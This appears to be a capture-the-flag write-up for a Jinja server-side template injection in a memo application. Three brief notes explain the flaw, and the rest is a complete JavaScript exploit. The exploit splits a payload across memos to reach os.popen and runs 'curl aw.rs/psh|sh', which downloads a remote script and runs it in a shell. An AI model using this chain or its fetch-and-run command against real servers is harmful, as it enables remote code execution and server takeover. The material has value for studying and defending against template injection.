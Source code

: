 - The memo body allows for control statements (eg `{% %}`) to be injected https://jinja.palletsprojects.com/en/3.1.x/templates/#list-of-control-structures
- The memo body only allows 64 characters, but they can be combined by creating a variable then using `include` to extend it
- An RCE payload can then be built up similar to https://secure-cookie.io/attacks/ssti/

```javascript
async function memo(userid, password, memo) {
  const resp = await fetch("/memo/", {
    method: "POST",
    headers: { "Content-Type": "application/json" },
    body: JSON.stringify({ userid, password, memo }),
  });
  return await resp.json();
}

async function ggg(payload, inc = true) {
  await memo(
    `vak${(i++).toString().padStart(2, "0")}`,
    "super_secret",
    `{%endraw%}{%${payload}%}{%include"vak${i
      .toString()
      .padStart(2, "0")}.html"%}{%raw%}`
  );
}

var i = 1;
var idx = 100; // remote
// var idx = 81; // local

await memo(
  "vakzz",
  "super_secret1",
  `{%endraw%}{%include"vak01.html"%}{%raw%}`
);
await ggg(`set a="".__class__`);
await ggg(`set a=a.__base__`);
await ggg(`set b='__subcl'`);
await ggg(`set b=b+'asses__'`);
await ggg(`set a=a[b]()[${idx}]`);
await ggg(`set a=a.__init__`);
await ggg(`set a=a.__globals__`);
await ggg(`set a=a['sys']`);
await ggg(`set a=a.modules`);
await ggg(`set a=a['os']`);
await ggg(`set a=a.popen`);
await ggg(`set c='curl aw'`);
await ggg(`set c=c+'.rs/psh|sh'`);
await ggg(`set a=a(c)`);
await ggg(`set a=a.read()`);
await memo(
  `vak${(i++).toString().padStart(2, "0")}`,
  "super_secret",
  `{%endraw%}done{%raw%}`
);
await (await fetch("/memo/vakzz/super_secret1")).text();
```
